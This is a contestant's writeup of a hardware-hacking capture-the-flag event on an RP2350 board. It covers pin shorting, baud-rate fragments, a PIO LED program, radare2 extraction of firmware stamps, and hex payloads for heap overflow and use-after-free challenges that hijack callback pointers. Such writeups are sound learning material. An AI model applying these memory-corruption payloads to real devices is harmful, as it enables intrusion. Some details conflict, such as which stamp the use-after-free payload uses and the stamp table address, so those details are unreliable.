





# Second Winner: @xvortex (Diego Soria)
# HardwareHackingEs2026 CTF Writeup
---
# 1. Long Short

## Statement

The goal of this challenge is to locate the GPIO pins on the bottom of the board and tie GPIO2, GPIO3, GPIO4, and GPIO5 to ground (GND).





## Solution

The statement suggests using keys to make the bridge, but the five pins that need to be connected together match exactly the width of a USB Type-A connector, so it's enough to plug one in to short-circuit them all at once.



After holding the connection for fifteen seconds, the board returns the challenge flag.

---

# 2. In Order Crazy Baud Rates

## Statement

The challenge asks you to keep changing the communication speed and write down the fragments of the flag that appear at each one.

## Analysis

The first approach was to launch the challenge at 9600 baud with `picom` and try different speeds; if you get it right, the program shows a portion of the flag, and if not, you have to press the board's reset button and start over.

The most common baud rates are the following ones:

| 1800 bauds |
| --- |
| 2400 bauds |
| 4800 bauds |
| 9600 bauds |
| 19200 bauds |
| 28800 bauds |
| 38400 bauds |
| 57600 bauds |
| 76800 bauds |
| 115200 bauds |

Finally, I used PuTTY, since it allows you to change the speed on an already-open session without closing the window.


## Solution

Starting at 9600 and going up speed by speed, the first part of the flag appeared at 19200 bauds. Following the same procedure, the second one came out when going back to 9600, the third at 38400, and the fourth at 115200. Piecing together the four fragments gives you the full flag.

Lastly, I solved the challenge by bruteforcing, trying the most common bands until I got all the fragments. But with `r2` we can search for these bands to see if they appear, and if so, we can obtain the array where the correct bands are defined.
```
[0x10000000]> /v4 19200
0x10033298 hit0_0 004b0000
[0x10000000]> /v4 9600
0x1003329c hit1_0 80250000
[0x10000000]> /v4 38400
0x100332a0 hit2_0 00960000
[0x10000000]> /v4 115200
0x100332a4 hit3_0 00c20100
```
They are exactly 4 consecutive addresses with a 4-byte stride.
```
[0x00000000]> s 0x10033298
[0x10033298]> pxw 16
0x10033298  0x00004b00 0x00002580 0x00009600 0x0001c200  .K...%..........
```
We can also see that the string "CHALLENGE: In order crazy baud rates!" is exactly `0x3C` bytes away, so this array belongs to the challenge.


---

# 3. PIO put led on

## Statement

```
PIO0 State Machine 0 is pre-configured: clock = 10 kHz.
Side-set: NON-optional, 1 pin = GPIO 25 (LED). Bit 12 = side-set value. 4-bit delay (bits 11:8, max 15).
Side-set controls the LED: side-set=1 -> LED ON, side-set=0 -> LED OFF.
EVERY instruction drives the LED via side-set (non-optional).
SET pins: base = GPIO 20, 2 pins (GPIO 20 and GPIO 21). 'set pins, V' writes V to GPIO 20/21.

The LED and AUX pins must follow this EXACT pattern:
  1) LED ON  for ~3 seconds,  GPIO20=1 GPIO21=0
  2) LED OFF for ~8 seconds,  GPIO20=0 GPIO21=1
  3) LED ON  for ~10 seconds, GPIO20=1 GPIO21=1
  4) LED OFF (stay off),      GPIO20=0 GPIO21=0
```

You also have to send 10 stamp bytes followed by 16-bit words in hexadecimal containing the PIO instructions.

## Analysis

Before getting into it, there are three things we need to know about PIO.

Each instruction is 16 bits with this format:

```
bits 15..13 : opcode (JMP, WAIT, IN, OUT, PUSH/PULL, MOV, IRQ, SET)
bit  12     : side-set (in this challenge, 1 bit = LED state)
bits 11..8  : delay (extra cycles the instruction takes, 0..15)
bits 7..5   : destination/condition
bits 4..0   : operand (5-bit register → values 0..31)
```

Since side-set is non-optional, every instruction must carry bit 12 set to the LED state for that phase.

The clock runs at 10 kHz, so each cycle lasts 100 µs. Translated to the requested pattern:

- Phase 1: ~3 s → ~30,000 cycles
- Phase 2: ~8 s → ~80,000 cycles
- Phase 3: ~10 s → ~100,000 cycles

PIO only has X and Y as working registers, and the `set` literals are 5 bits (max 31). This limitation complicates the calculation of the delay. A simple loop like `set x, 31 / jmp x--, label [15]` gives at most `32 * 16 = 512` cycles. Nesting two loops (Y outer, X inner) gets you to `32 * 32 * 16 = 16,384` cycles, barely 1.6 s. Far from the ten seconds we had of phase 3.

### ISR as a third counter

PIO has no stack nor a third scratch register, but it does have ISR and OSR (the shift registers). The `mov isr, y` and `mov y, isr` instructions are legal, so ISR can be used as a temporary store for an additional counter:

  | Instruction | Purpose |
  | --- | --- |
  | mov isr, y | save the pass counter |
  | set y, 31  | clobber y to use it in the middle loop |
  | ... | run the middle + inner loop |
  | mov y, isr | restore the pass counter |
  | jmp y--, ... | decrement and loop back if any left |

With three nested levels there's enough margin: if each pass lasts about 15,400 cycles, six passes add up to 92,000 cycles (~9.2 s), enough for the longest phase.

### Design of the phases

The skeleton is the same for the three active phases:

| set pins, X  | side=LED | sets GPIO20/21 and the LED |
| --- | --- | --- |
| set y, N |  | sets the pass counter (N passes) |
| mov isr, y | [15] | "pass_loop" label (we'll jump back to it) |
| set y, 31 | [15] |  |
| set x, 31 | [15] | "outer" (reload X) |
| jmp x--, (self) | [15 or less] | inner loop: 32 iterations |
| jmp y--, outer | [15] | middle loop: 32 iterations |
| mov y, isr | [15] | recover the pass counter |
| jmp y--, pass_loop | [15] | closing of the pass loop |

The timings are fine-tuned with two parameters: the delay of the inner jmp (if you want to shorten a phase) and the number of passes (initial value of Y before the `mov isr`).

- Phase 1 (~3 s): 2 passes. I lower the delay of the inner jmp to 13 to avoid overshooting → comes out to ~3.08 s.
- Phase 2 (~8 s): 5 passes with all delays at 15 → ~8.74 s.
- Phase 3 (~10 s): 6 passes with all delays at 15 → ~10.48 s.
- Phase 4: `set pins, 0` with side=0 and a `jmp <self>` that stays there forever.

### The complete program

The final program takes up 29 instructions, so it fits in the 32 memory slots of the state machine:
```
  .program phases
  .side_set 1

      set pins, 1     side 1
      set y, 1        side 1
  pass_1:
      mov isr, y      side 1 [15]
      set y, 31       side 1 [15]
  outer_1:
      set x, 31       side 1 [15]
  inner_1:
      jmp x--, inner_1   side 1 [13]
      jmp y--, outer_1   side 1 [15]
      mov y, isr      side 1 [15]
      jmp y--, pass_1    side 1 [15]

      set pins, 2     side 0
      set y, 4        side 0
  pass_2:
      mov isr, y      side 0 [15]
      set y, 31       side 0 [15]
  outer_2:
      set x, 31       side 0 [15]
  inner_2:
      jmp x--, inner_2   side 0 [15]
      jmp y--, outer_2   side 0 [15]
      mov y, isr      side 0 [15]
      jmp y--, pass_2    side 0 [15]

      set pins, 3     side 1
      set y, 5        side 1
  pass_3:
      mov isr, y      side 1 [15]
      set y, 31       side 1 [15]
  outer_3:
      set x, 31       side 1 [15]
  inner_3:
      jmp x--, inner_3   side 1 [15]
      jmp y--, outer_3   side 1 [15]
      mov y, isr      side 1 [15]
      jmp y--, pass_3    side 1 [15]

      set pins, 0     side 0
  end:
      jmp end         side 0
  ```

Each instruction is a 16-bit word assembled from its fields. For example, `set y, 31 side 1 [15]`:

```
111 (SET)   1 (side-set=1)   1111 (delay=15)   010 (Y)   11111 (31)
= 1111 1111 0101 1111 = 0xFF5F
```
 
The stamp is still missing. If you send a random one, the challenge tells you to go find it, so I download the recovery firmware and analyze it with radare2.

## Extracting the stamps

### 1. Open with radare2 pointing at RISC-V and the correct base

The RP2350 is a dual-core chip (ARM Cortex-M33 + RISC-V Hazard3). I open the binary with:

- `-a riscv` for the architecture
- `-b 32` for 32-bit width
- `-m 0x10000000` to map the content to the real flash address



### 2. Sanity check: confirm RISC-V and not ARM Thumb

In ARM Thumb, the typical return is `bx lr` (`0x4770`, bytes `70 47`). In compressed RISC-V it's `c.ret` (`0x8082`, bytes `82 80`). Counting occurrences of each one we can se the binary is RISC-V.



### 3. Finding the stamp verification strings

The firmware has to print something when the stamp is incorrect. With `izz` the strings of the whole binary are listed, and filtering with `~` by the word "STAMP" the following appears:

```bash
[0x10000000]> izz~STAMP
1156 0x000352e4 0x000352e4 155  156          ascii   STAMP CHECK FAILED! The first %d bytes are not the correct challenge stamp.\r\nYou must reverse engineer the firmware to find the stamp for this challenge.\r\n
1180 0x00035de4 0x00035de4 167  168          ascii   STAMP CHECK FAILED! The first %d bytes of user_buf are not the correct challenge stamp.\r\nYou must reverse engineer the firmware to find the stamp for this challenge.\r\n
1228 0x00037650 0x00037650 166  167          ascii   STAMP CHECK FAILED! The first %d bytes of new_buf are not the correct challenge stamp.\r\nYou must reverse engineer the firmware to find the stamp for this challenge.\r\n
```

Three occurrences, one for each challenge that uses a stamp:

- `0x352e4`: generic string (used by the PIO challenge and similar ones)
- `0x35de4`: specific to user buffer (heap overflows)
- `0x37650`: specific to `new_buf` (use-after-free)

One detail: `izz` returns `paddr == vaddr` (both at `0x000352e4`) because r2 carries over the file offset without applying the `-m` mapping in the string metadata. The real memory address is `paddr + 0x10000000 = 0x100352e4`:

```bash
[0x10000000]> s 0x000352e4
[0x000352e4]> px 32
- offset -  E4E5 E6E7 E8E9 EAEB ECED EEEF F0F1 F2F3  456789ABCDEF0123
0x000352e4  ffff ffff ffff ffff ffff ffff ffff ffff  ................
0x000352f4  ffff ffff ffff ffff ffff ffff ffff ffff  ................
[0x000352e4]> s 0x100352e4
[0x100352e4]> px 48
- offset -  E4E5 E6E7 E8E9 EAEB ECED EEEF F0F1 F2F3  456789ABCDEF0123
0x100352e4  5354 414d 5020 4348 4543 4b20 4641 494c  STAMP CHECK FAIL
0x100352f4  4544 2120 5468 6520 6669 7273 7420 2564  ED! The first %d
0x10035304  2062 7974 6573 2061 7265 206e 6f74 2074   bytes are not t
```

At the second address the string appears. You always have to add `0x10000000` to the addresses returned by `izz`.

### 4. Attempt at the "classic" path: xrefs to the string

The usual procedure would be to run `aaa` so r2 resolves the xrefs and then use `axt` to see which code loads the string address. Just before that load, a `memcmp(input, stamp_table, 10)` usually appears, and one of its operands is the pointer to the table.

```bash
[[0x100352e4]> aaa
INFO: Analyze all flags starting with sym. and entry0 (aa)
INFO: Analyze imports (af@@@i)
WARN: select the calling convention with `e anal.cc=?`
INFO: Analyze symbols (af@@@s)
INFO: Analyze all functions arguments/locals (afva@@@F)
INFO: Analyze function calls (aac)
INFO: find and analyze function preludes (aap)
INFO: Analyze len bytes of instructions for references (aar)
INFO: Finding and parsing C++ vtables (avrr)
INFO: Analyzing methods (af @@ method.*)
INFO: Emulate functions to find computed references (aaef)
INFO: Recovering local variables (afva@@@F)
INFO: Type matching analysis for all functions (aaft)
INFO: Propagate noreturn information (aanr)
INFO: Use -AA or aaaa to perform additional experimental analysis
INFO: Finding xrefs in noncode sections (e anal.in=io.maps.x; aav)
[0x100352e4]> axt @ 0x100352e4
[0x100352e4]> axt @ 0x10035de4
[0x100352e4]> axt @ 0x10037650
[0x100352e4]>
```

`axt` returns nothing. The reason is that RISC-V loads addresses in two phases with `auipc + addi` (PC-relative) or shoves almost everything into the global section via `gp` (global pointer). Radare2 doesn't correctly resolve that pair during its default analysis, causing PC-relative xrefs to be lost. This can be seen by inspecting the disassembly near the startup:


So I switch approaches.

### 5. Landmarks in rodata

If the code isn't useful, I go for the data. The stamps are 10 apparently random bytes plus 2 of padding, grouped in a table, and they should live in `.rodata` near other constants. A good nearby constant is the build date: the C macros `__DATE__` and `__TIME__` insert predictable strings of the form `"Apr  6 2026"` and `"02:35:13"`.

```bash
[0x10000100]> izz~Apr
990  0x0003203c 0x0003203c 11   12           ascii   Apr  6 2026
1079 0x000338e0 0x000338e0 31   32           ascii   Compiled: Apr  6 2026 02:35:13\r
1397 0x0003927c 0x0003927c 11   12           ascii   Apr  6 2026
[0x10000100]>
```

The first one, at `paddr 0x3203c`, is isolated and at the beginning of its rodata area (it's not part of another phrase like "Compiled: Apr..."). Its real address is `0x1003203c`.

ASCII strings are stored in a block inside `rodata`, so just before that date there should be non-text constants, which is where the stamps likely live.

### 6. Inspection of the area before the landmark

I step back a bit and dump 96 bytes to see the transition:



Three things stand out:

1. A zero zone (`0x10031fe0`–`0x10031fff`) that looks like alignment padding marking the end of the previous section.
2. A 48-byte block with high entropy at `0x10032000`–`0x10032030`, following a clear pattern: 10 random bytes followed by `00 00`, repeated four times.
3. Right after that, the strings start: `"02:35:13"` (from `__TIME__`) and then `"Apr "` (from `__DATE__`).

That area between the padding and the strings is the stamp table.

Extracted in clean format:

| Index | Address | Stamp (10 bytes) |
| --- | --- | --- |
| stamp[0] | `0x10032000` | `0E B2 C2 CC 6B 40 AA FF E4 5F` |
| stamp[1] | `0x1003200C` | `CA E6 51 2D 80 2E 82 EA 08 59` |
| stamp[2] | `0x10032018` | `5A F7 E7 20 10 E3 91 F2 00 1D` |
| stamp[3] | `0x10032024` | `15 D5 97 3E DD 1E 2A 74 1A CE` |

Since `axt` isn't helpful, instead of identifying which stamp corresponds to each challenge via static analysis, I try them one by one on each challenge until I find the correct one.

| Challenge (id) | Name | Stamp used |
| --- | --- | --- |
| `p` | The dumb PSRAM heap overflow | `stamp[0]` |
| `o` | The not so dumb heap overflow | `stamp[1]` |
| `u` | PSRAM heap use-after-free | `stamp[2]` |
| `l` | PIO put LED on | `stamp[3]` |

## Final payload

```
15 D5 97 3E DD 1E 2A 74 1A CE F001 F041 BFC2 FF5F FF3F 1D45 1F84 BF46 1F82 E002 E044 AFC2 EF5F EF3F 0F4E 0F8D AF46 0F8B F003 F045 BFC2 FF5F FF3F 1F57 1F96 BF46 1F94 E000 001C
```

---

# 4. The Dumb PSRAM Heap Overflow

## Statement

```
heap_solved() is at: 0x20001680
heap_not_solved() is at: 0x200016BA

user_buf allocated at:       0x11000AFC (size: 64 bytes)
target struct allocated at:  0x11000B40 (sizeof: 20 bytes)
target->callback is at:      0x11000B50 (currently: 0x200016BA)

Distance from user_buf[0] to target->callback: 84 bytes
```

The challenge asks for bytes in hexadecimal and lets you write into `user_buf` without bounds checking. Right after it there is a struct with a function pointer at the end. The idea is to overflow the buffer, overwrite the pointer, and make it point to `heap_solved()` instead of `heap_not_solved()`.

There's an extra restriction: the first 10 bytes of the payload must be the correct stamp for the challenge, extracted from the firmware by reverse engineering (already solved in the previous section).

## Layout analysis

The first thing is to do the math with the addresses the firmware itself provides:

- `user_buf` starts at `0x11000AFC` and is 64 bytes long, so it ends at `0x11000B3C`.
- The `target` struct starts at `0x11000B40`.
- Between them there are 4 bytes corresponding to the TLSF chunk header.
- Inside the struct, the callback is at offset 16 (`0x11000B50`).

Adding up: 64 + 4 + 16 = 84 bytes to the pointer, matching what the challenge indicates.


Those 4 bytes in between are a TLSF chunk header (size and flags). Stomping on them is harmless here since no `malloc` or `free` runs before the callback. With more heap activity it would be risky: when TLSF coalesces free chunks, a bad header can turn into an arbitrary write.

## Stamp

Using the table already extracted in the previous challenge, the one that works here is stamp[0]: `0E B2 C2 CC 6B 40 AA FF E4 5F`.

## Payload construction

Total: 88 bytes.

```
[10]   stamp ............. 0E B2 C2 CC 6B 40 AA FF E4 5F
[54]   filler (0x41) ..... completes the 64 bytes of user_buf
[ 4]   TLSF header ....... we overwrite it brute-force
[16]   struct fields ..... the other fields before the callback
[ 4]   final pointer ..... 0x20001680 in little-endian = 80 16 00 20
```

On a single line:

```
0E B2 C2 CC 6B 40 AA FF E4 5F 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 42 42 42 42 43 43 43 43 43 43 43 43 43 43 43 43 43 43 43 43 80 16 00 20
```

I used `0x41` for the user buffer, `0x42` for the TLSF header, and `0x43` for the struct fields, so that if something fails, a dump lets you tell which region is being overwritten incorrectly. In the end it wasn't needed, however, establishing that visibility is better than to have everything with the same byte.

---

# 5. The PSRAM HEAP Use-After-Free

Another RISC-V exploitation challenge on the RP2350. The scenario is similar to the previous heap overflow, but this time nothing needs to be overflowed: the bug is a Use-After-Free on the PSRAM with the TLSF allocator.

## Statement

On entry, the firmware describes step by step what it does:

```
uaf_solved() is at:     0x20001ECC
uaf_not_solved() is at: 0x20001F04

Step 1: Allocated victim struct at 0x11000AFC (sizeof: 20 bytes)
  victim->tag      at offset 0  (16 bytes)
  victim->callback at offset 16 (4 bytes) = 0x20001F04

Step 2: Freeing victim struct... (pointer 0x11000AFC is now dangling!)

Step 3: Allocating new buffer of SAME size (20 bytes)...
  New buffer allocated at: 0x11000AFC
  *** SAME address as freed victim! The allocator reused the memory. ***
```

It reserves a struct, frees it but keeps the old pointer (now dangling), asks for another block of the same size (20 bytes), TLSF places it in exactly the hole that was just freed, and lets you write into that new block. Finally it invokes `victim->callback()` using the old pointer.

Since `victim` and `new_buf` are physically the same chunk of memory, whatever I write into `new_buf` is reinterpreted as the fields of `victim`. The pointer is at offset 16, so I control which function the callback jumps to.

## Analysis: why it always lands in the same slot

TLSF uses a LIFO policy. On `free`, the freed chunk is inserted at the head of the free-list of the corresponding size. If right after that a `malloc` of that same size is requested, the allocator returns that same chunk. It's the behavior you would seek manually to do heap grooming, except here it is handed to you on a silver platter.

The same thing happens with dlmalloc (fastbins), glibc (tcache), and others. It's not exclusive to TLSF.

## The stamp

Same table as in challenge `p`, at `flash 0x10031F00`. Testing empirically, for the UAF the one that works is stamp[1]: `CA E6 51 2D 80 2E 82 EA 08 59`.

## Payload construction

Here there are only 20 bytes, which is the size of the reused struct.

```
[10]  stamp ............. CA E6 51 2D 80 2E 82 EA 08 59
[ 6]  filler (0x41) ..... completes the 16 bytes of the tag field
[ 4]  final pointer ..... 0x20001ECC in little-endian = CC 1E 00 20
```

On a single line:

```
5A F7 E7 20 10 E3 91 F2 00 1D 41 41 41 41 41 41 CC 1E 00 20
```

## Result

Once the payload is entered, the firmware shows STAMP CHECK PASSED, `victim->callback` now points to `uaf_solved()`, it's invoked through the dangling pointer, and the flag appears.


---

# 6. The Not So Dumb PSRAM Heap Overflow

This challenge no longer hands over the distances: you have to calculate them from the addresses.

## Statement

When selecting option `o`:

```
=== The Not So Dumb PSRAM Heap Overflow ===

heap2_solved() is at: 0x20001A4E
heap2_not_solved() is at: 0x20001A86

user_buf allocated at:   0x11000AFC (size: 32 bytes)
guard struct at:         0x11000B20 (sizeof: 16 bytes, magic at offset 0)
target struct at:        0x11000B34 (sizeof: 16 bytes, callback at offset 12)

Guard magic must be: 0x69CAFE69 (little-endian: 69 FE CA 69)
Calculate your offsets from the addresses above. No distances are given!
```

TLSF hands out three blocks in this order:

1. `user_buf` (32 bytes): where I write without limit.
2. `guard struct` (16 bytes): with a magic value `0x69CAFE69` at its offset 0.
3. `target struct` (16 bytes): with the callback at its offset 12.

Before calling `target->callback()`, the firmware checks that `guard->magic == 0x69CAFE69`. If I break that value while crossing the block, the check fails. So I need to overflow up to the target's callback without altering the magic.

## Analysis: calculating the distances

The challenge warns: "No distances are given!", so I do the math myself.

From user_buf[0] to guard[0]:

```
0x11000B20 - 0x11000AFC = 0x24 = 36 bytes
```

Which matches: 32 bytes of `user_buf` + 4 bytes of the next chunk's TLSF header = 36.

From user_buf[0] to target[0]:

```
0x11000B34 - 0x11000AFC = 0x38 = 56 bytes
```

Which matches: 36 + 16 (entire guard) + 4 (target's TLSF header) = 56.

From user_buf[0] to target->callback:

```
56 + 12 (offset of the callback within the target) = 68 bytes
```

Total payload size: `68 + 4 = 72 bytes`.

## Payload construction

Total: 72 bytes.

```
[10]  stamp ............. CA E6 51 2D 80 2E 82 EA 08 59
[22]  filler (0x41) ..... completes the 32 bytes of user_buf
[ 4]  TLSF header ....... the guard's, overwritten with 0x42
[ 4]  magic ............. 69 FE CA 69, touch a byte and the check fails
[12]  filler (0x43) ..... rest of the guard, not verified
[ 4]  TLSF header ....... the target's, overwritten with 0x44
[12]  filler (0x45) ..... target fields before the callback
[ 4]  callback .......... 0x20001A4E in little-endian = 4E 1A 00 20
```

I keep the trick of using a different byte in each zone (`0x41`, `0x43`, `0x45` in the three filler zones; `0x42` and `0x44` in the two TLSF headers), so if something crashes, a dump shows at a glance which region is being overwritten incorrectly. The TLSF headers normally contain size and free-list flags, but between my write and the callback call there is no `malloc` or `free`, so nobody reads them again. Zeros would work just the same.

## Final payload

On a single line:

```
CA E6 51 2D 80 2E 82 EA 08 59 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 42 42 42 42 69 FE CA 69 43 43 43 43 43 43 43 43 43 43 43 43 44 44 44 44 45 45 45 45 45 45 45 45 45 45 45 45 4E 1A 00 20
```

The stamp used is stamp[1] from the table obtained from the firmware at `flash 0x10031F00`: `CA E6 51 2D 80 2E 82 EA 08 59`.

# Conclusions

This was my first hardware hacking CTF, and it won't be the last. I genuinely enjoyed every challenge, and you can feel the creativity behind them, turning a simple puzzle into something worth sitting down for hours. Along the way I learned a lot about how the RP2040's PIO actually works under the hood, something that really caught my curiosity. It made me want to spend more time messing around with the RP2040 to really understand where its limits are.